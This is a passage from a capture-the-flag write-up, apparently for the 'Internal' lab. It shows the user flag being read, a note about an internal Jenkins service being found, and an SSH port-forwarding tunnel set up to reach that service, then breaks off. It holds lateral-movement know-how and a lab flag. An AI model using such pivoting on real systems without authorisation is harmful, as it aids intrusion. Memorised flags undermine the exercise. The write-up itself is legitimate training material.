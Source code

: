 > We found a user Flag :

```bash
aubreanna@internal:~$ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$cat user.txt 
THM{int3rna1_fl4g_1}
```
- When enumerating the home directory, found information about Jenkins, which appears to be running on port 8080 :

```bash
aubreanna@internal:~$ls
There  jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

> Since port 8080 can only by accessed locally, setting up port forwarding in order to redirect traffic to localhost on port 8080 to the target machine on port 8080 :

```bash
$ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.192.249                                           
aubreanna@10.10.192.249's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 11:15:01 UTC 2023

  System load:  0.0               Processes:              118
  Usage of /:   63.9% of 8.79GB   Users logged in:        1
  Memory usage: 38%               IP address for eth0:    10.10.192.249
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jan  7 11:11:26 2023 from 10.9.35.72'
aubreanna@internal:~$
```

- Jenkins is now accessible from the Kali host :
